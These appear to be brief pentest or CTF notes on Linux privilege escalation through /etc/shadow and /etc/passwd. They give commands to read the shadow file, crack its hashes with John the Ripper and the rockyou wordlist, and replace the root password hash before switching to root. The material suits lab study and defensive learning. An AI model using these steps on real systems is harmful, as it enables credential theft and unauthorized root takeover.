 # Shadow
## crack password
ls -l /etc/shadow

cat /etc/shadow

Unzip and then use johnTheRipper
save the hash to hash.txt
unzip /usr/share/wordlists/rockyou.txt.gz 
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

## replace password shadow

ls -l /etc/shadow

generate new password, rember to switch algoritm
mkpasswd -m sha-512 newpasswordhere
replace password in /etc/shadow

## replace password passwd
 cat /etc/passwd
 openssl passwd newpasswordhere
 replace root password
 su root
